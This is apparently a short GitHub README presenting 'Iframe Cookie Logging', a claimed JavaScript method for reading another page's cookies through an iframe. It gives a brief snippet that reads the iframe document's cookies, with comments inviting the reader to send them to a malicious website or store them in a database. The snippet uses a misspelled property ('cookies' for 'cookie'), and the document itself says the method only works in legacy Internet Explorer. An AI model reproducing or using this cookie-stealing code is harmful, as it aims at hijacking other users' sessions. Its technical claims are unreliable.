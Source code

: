 # ICL
ICL, also known as Iframe Cookie Logging is a method that gets cookies in a iframe element. ICL is really easy to implement as it uses built-in JS functions. We load the iframe and we can get the cookies in it.

### Should i worry about this method?
No, most websites like ROBLOX, Twitter and other sites have implemented a feature that blocks any third party iframes from accessing its contents which prevents this method from being used. And yes this only works on IE, (maybe legacy microsoft edge) and yeah.


````js
 var iframe = document.getElementById("foo"); // your frame id or point to a element.
  var cookies = iframe.contentWindow.document.cookies;
  alert(cookies)
  
  // Now the cookies element has been defined, you can
  // send it to a malicious website, store it on a
  // database and yeah. Treat it like it was your
  // site and you executing JS.
````
